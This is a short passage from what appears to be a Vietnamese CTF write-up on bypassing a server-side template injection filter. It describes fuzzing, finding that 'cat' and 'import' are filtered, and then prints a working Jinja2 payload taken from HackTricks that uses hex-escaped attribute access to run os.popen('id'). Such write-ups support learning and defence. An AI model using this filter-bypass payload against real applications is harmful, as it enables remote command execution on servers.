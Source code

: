 Tiến hành fuzz nhưng bây giờ là chuyện khác nó đã filter những lệnh cat hay import rồi
![alt text](image-35.png)
Sau mấy tiếng đồng hồ tôi đã thử mọi cách nhưng nó vẫn báo đừng cố làm nó thất vọng tôi đã nghĩ đến nó đã filter hết rồi.
Tới đây tôi đã đi tìm được 1 payload trên hacktrick có thể vượt qua bộ lọc chúng.
### Khai thác
Bypassing most common filters `('.','_','|join','[',']','mro' and 'base')` by
`{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
`